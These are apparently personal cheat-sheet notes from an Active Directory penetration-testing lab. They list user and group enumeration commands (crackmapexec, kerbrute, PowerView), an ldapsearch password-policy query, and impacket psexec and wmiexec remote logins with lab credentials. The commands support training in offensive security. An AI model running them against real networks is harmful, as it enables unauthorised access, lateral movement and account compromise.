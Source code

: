 Create list of domain users
```powershell-session
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

Credentialed valid user discovery
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

Discovering valid users with user list
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt

(Extract usernames)

grep -oE '[^[:space:]]+@' logfile.txt | cut -d'@' -f1
```

Check if user in groups
```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```
```powershell-session
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

Discover account group partnership
```powershell-session
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```

Credentialed logged on user discovery
```shell-session
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

Credentialed group discovery
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

Query group member info
```powershell-session
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
```

Admin login via impacket
```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
Stealthy admin login via impacket
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

#### Password Discovery

Password policy
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
